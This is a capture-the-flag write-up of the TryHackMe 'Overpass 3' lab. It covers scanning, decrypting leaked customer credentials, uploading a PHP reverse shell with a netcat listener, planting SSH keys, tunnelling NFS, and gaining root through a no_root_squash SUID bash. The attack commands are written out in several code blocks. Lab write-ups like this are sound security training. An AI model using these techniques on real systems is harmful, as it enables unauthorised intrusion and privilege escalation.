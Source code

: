 # Overpass 3 - Hosting

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)

Nmap Scan command:&#x20;

```
nmap -T4 -A 10.10.168.65 -oN nmapscan
```

Nmap output:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 22:39 EDT
Nmap scan report for 10.10.168.65
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

I noticed that they have 3 ports open. I went to the web (port 80) first to check it out:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1) (1) (1) (1).png>)

There was no `/robots.txt` file. I then ran **gobuster** on the IP address:

```
gobuster dir --url http://10.10.168.65/  -w directory-list-lowercase-2.3-big.txt -t 40
```

About 4% of the gobuster search, I got the following output:

![](<../../.gitbook/assets/image (330) (1) (1) (1) (1) (1) (1).png>)

Going to the backups website, I saw this:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I then downloaded the file. There were two files in the zip file:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Using [this write-up](https://musyokaian.medium.com/overpass-3-hosting-tryhackme-walkthrough-d77703a72495), I realized that I can decrupt the file with the private key I have:

```
gpg --import priv.key //import the key
gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx //output to new file
```

Since I am on Linux (Kali), I wanted to convert the file to a version that I would be able to view in. I ran the following command to convert the Excel file into a csv file, which I was able to read:

```
ssconvert CustomerDetails.xlsx newfile.csv
```

I was then able to see the contents of the file:

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1) (1) (1).png>)

It seems to be the customers of the website, based on the context. We also have their username and password. I will try this in FTP, and my plan is that if the password does not work on FTP, then I will try SSH. In FTP, I got access using the credentials for "Par. A. Doxx":

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

FTP seemed to only work for that user. The other passwords did not work in FTP. When I tried for SSH, the credentials did not work there either. I then went back to the same write-up above and then realized that I had to upload a php-reverse-shell. Going to [this GitHub page](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I downloaded the reverse-shell script. In the script, I changed the IP address to my TryHackMe IP address. I then uploaded the file to the server:

![](<../../.gitbook/assets/image (326) (1) (1) (1).png>)

I then ran `nc -lvp 1234` on another terminal tab, and was listening for a connection. After visiting **http://10.10.168.65/php-reverse-shell.php**, I got a reverse shell:

![](<../../.gitbook/assets/image (325) (1) (1) (1) (1).png>)

After being stuck for a while, I viewed [this write-up](https://www.aldeid.com/wiki/TryHackMe-Overpass-3-Hosting) in order to see where to go next. I used the command the author of the write-up used:

```
find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
```

This gave me the following output:

![](<../../.gitbook/assets/image (323) (1) (1) (1) (1).png>)

This file had the flag in it:

![](<../../.gitbook/assets/image (328) (1) (1) (1) (1) (1).png>)

I then downloaded Linpeas to my local machine using **wget**. I then pushed that to the server using an http server:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I then ran linpeas on the remote machine. I then saw the following, when I also saw in other write-ups as well:

![](<../../.gitbook/assets/image (327) (1) (1) (1) (1) (1) (1).png>)

I then went back to the most recently mentioned write-up, in order to understand what I had to do next. Following [this write-up](https://shishirsubedi.com.np/thm/overpass3/), I uploaded my key to the remote server so I can connect in an easier method. Here are the commands I ran:

```
My machine: ssh-keygen -f paradox
My machine: cat paradox.pub
//Take the information inside the paradox.pub and copy it to the remote machine
Remote machine: echo "ssh-rsa ............" > .ssh/paradox
```

I was then able to ssh into the machine to the user paradox from my machine directly:

![](<../../.gitbook/assets/image (324) (1).png>)

After a long time of being stuck, I finally found a solution reading [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/). My mistake was running the wrong command. The following is what worked for me:

```
ssh -i paradox -L 20049:127.0.0.1:2049  paradox@10.10.168.65
```

I changed 2049 before the IP to 20049, since I kept on getting errors that the port was already in use. I then ran the following command to mount the share to my local machine:

```
sudo mount -t nfs -o port=20049 localhost: nfs
```

If we change directory into the **nfs** folder, we can see the file system mounted there:

![](<../../.gitbook/assets/image (337) (1) (1) (1) (1) (1).png>)

I read the user flag. After that, the ssh authorized key I had uploaded to paradox earlier, I had not uploaded it to **.ssh/authorized\_keys** in the mounted directory. I then was able to SSH to the machine:

![](<../../.gitbook/assets/image (331) (1) (1) (1) (1) (1) (1).png>)

I read up from [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/) that I can now use the **no\_root\_squash** exploit, something that linpeas.sh had shown us earlier. I followed the following commands from the write-up to get it to work:

```
#In the mounted dir, as root user
cp /bin/bash ./
chmod +s bash

#In the remote machine as user james
./bash -p
```

This got me root user on the machine. I then got the root flag.

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
